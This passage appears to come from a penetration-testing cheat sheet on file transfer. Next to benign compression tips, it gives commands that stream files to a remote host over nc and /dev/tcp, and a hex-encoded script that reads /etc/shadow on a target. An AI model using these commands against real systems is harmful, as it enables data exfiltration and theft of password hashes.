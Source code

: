 ## Compression Tips

```bash
# Single file (gzip)
gzip -c file > file.gz

# Directory (tar+gzip)
tar czf archive.tar.gz directory/

# Split large files
split -b 5M large_file part_
# Reassemble with:
cat part_* > large_file
```

## Living Off The Land

```bash
# When standard tools aren't available
# Using dd over TCP
dd if=file bs=1M | nc 10.10.10.10 4444

# Using cat and bash redirection
cat file > /dev/tcp/10.10.10.10/4444

# Using base64 via clipboard (manual)
base64 file  # Copy output
# On other system
echo "base64string" | base64 -d > file
```

## File Transfer using Magic Bits

```bash
# Create the magic file
echo '#!/bin/bash' > magic.sh
echo 'cat /etc/shadow' >> magic.sh
chmod +x magic.sh

# Encode for transfer
xxd -p magic.sh | tr -d '\n'
# Copy the hex output

# On target system
echo "hexoutput" | xxd -p -r > magic.sh
chmod +x magic.sh
./magic.sh
```

## Quick Reference - Best Method By Situation
